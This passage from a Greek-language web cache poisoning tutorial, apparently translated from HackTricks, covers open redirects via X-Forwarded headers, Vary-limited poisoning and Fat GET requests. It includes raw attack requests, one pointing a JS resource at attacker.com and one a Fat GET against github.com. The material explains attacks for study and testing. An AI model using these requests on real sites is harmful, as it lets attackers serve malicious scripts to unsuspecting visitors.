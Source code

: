 Αυτό εξηγείται επίσης καλύτερα σε:

{% content-ref url="cache-poisoning-via-url-discrepancies.md" %}
[cache-poisoning-via-url-discrepancies.md](cache-poisoning-via-url-discrepancies.md)
{% endcontent-ref %}

### Χρήση πολλαπλών κεφαλίδων για εκμετάλλευση ευπαθειών δηλητηρίασης web cache <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Μερικές φορές θα χρειαστεί να **εκμεταλλευτείτε αρκετές μη κλειδωμένες εισόδους** για να μπορέσετε να καταχραστείτε μια cache. Για παράδειγμα, μπορεί να βρείτε μια **Ανοιχτή ανακατεύθυνση** αν ορίσετε το `X-Forwarded-Host` σε ένα domain που ελέγχετε και το `X-Forwarded-Scheme` σε `http`. **Αν** ο **server** **προωθεί** όλα τα **HTTP** αιτήματα **σε HTTPS** και χρησιμοποιεί την κεφαλίδα `X-Forwarded-Scheme` ως το όνομα του domain για την ανακατεύθυνση. Μπορείτε να ελέγξετε πού δείχνει η σελίδα μέσω της ανακατεύθυνσης.
```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
### Εκμετάλλευση με περιορισμένο `Vary` header

Αν διαπιστώσετε ότι ο **`X-Host`** header χρησιμοποιείται ως **όνομα τομέα για τη φόρτωση ενός JS πόρου** αλλά ο **`Vary`** header στην απάντηση υποδεικνύει **`User-Agent`**. Τότε, πρέπει να βρείτε έναν τρόπο να εξάγετε τον User-Agent του θύματος και να δηλητηριάσετε την cache χρησιμοποιώντας αυτόν τον user agent:
```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
### Fat Get

Στείλτε ένα GET αίτημα με το αίτημα στη διεύθυνση URL και στο σώμα. Αν ο διακομιστής ιστού χρησιμοποιεί αυτό από το σώμα αλλά ο διακομιστής cache αποθηκεύει αυτό από τη διεύθυνση URL, οποιοσδήποτε έχει πρόσβαση σε αυτή τη διεύθυνση URL θα χρησιμοποιήσει στην πραγματικότητα την παράμετρο από το σώμα. Όπως η ευπάθεια που βρήκε ο James Kettle στον ιστότοπο του Github:
```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```
There it a portswigger lab about this: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)
